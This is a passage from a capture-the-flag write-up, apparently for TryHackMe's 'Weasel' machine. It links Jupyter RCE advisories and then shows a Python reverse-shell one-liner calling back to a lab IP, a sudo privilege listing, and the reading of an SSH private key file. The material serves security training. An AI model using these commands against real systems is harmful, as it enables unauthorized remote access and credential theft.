 We look for possible exploits for RCE (*Remote Code Execution*), we find this interesting links:

- [https://github.com/google/security-research/security/advisories/GHSA-c469-p3jp-2vhx](https://github.com/google/security-research/security/advisories/GHSA-c469-p3jp-2vhx)
- [https://blog.jupyter.org/cve-2021-32797-and-cve-2021-32798-remote-code-execution-in-jupyterlab-and-jupyter-notebook-a70fae0d3239](https://blog.jupyter.org/cve-2021-32797-and-cve-2021-32798-remote-code-execution-in-jupyterlab-and-jupyter-notebook-a70fae0d323)
- [https://security.snyk.io/vuln/SNYK-PYTHON-IPYCACHE-173995](https://security.snyk.io/vuln/SNYK-PYTHON-IPYCACHE-173995)

Finally, we can use the terminal option for system access, we can execute a reverse shell to work for comfortably:

#### Reverse shell code
```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.9.41.86",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
We can see that we have access to the *sudo* command and we can execute a couple of options:

![](../assets/img/weasel-tryhackme-writeup/5.png)

```
python3 -c "import pty; pty.spawn('/bin/bash')"
(base) dev-datasci@DEV-DATASCI-JUP:~$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
(base) dev-datasci@DEV-DATASCI-JUP:~$ 
```

We can see a *dev-datasci-lowpriv_id_ed25519* file, this file with contain the private key for *SSH* connection with *dev-datasci-lowpriv* user:

```
(base) dev-datasci@DEV-DATASCI-JUP:~$ ls                            
anaconda3  anacondainstall.sh  datasci-team  dev-datasci-lowpriv_id_ed25519
(base) dev-datasci@DEV-DATASCI-JUP:~$ cat dev-datasci-lowpriv_id_ed25cat dev-datasci-lowpriv_id_ed25519
cat dev-datasci-lowpriv_id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAAB<SNIP>
VQAQI=
-----END OPENSSH PRIVATE KEY-----
(base) dev-datasci@DEV-DATASCI-JUP:~$ 
```
